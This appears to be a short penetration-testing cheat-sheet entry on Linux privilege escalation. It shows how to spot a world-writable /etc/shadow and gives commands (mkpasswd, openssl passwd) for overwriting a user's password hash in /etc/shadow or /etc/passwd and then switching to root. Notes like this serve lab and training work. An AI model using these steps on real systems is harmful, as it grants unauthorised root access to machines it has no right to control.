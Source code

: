 # if ls -l /etc/shadow output reads something similar to:
    -rw-r--rw- 1 root shadow 837 Apr 12 01:32 /etc/shadow

# replace user hash in /etc/shadow
    mkpasswd -m sha-512 <new password> will create a new hash
    Replace chosen user hash with new hash

# replace user hash in /etc/passwd
    openssl passwd <new password>
    Place new hash between first 2 colons of any user

# following each password generation, switch to root, using new password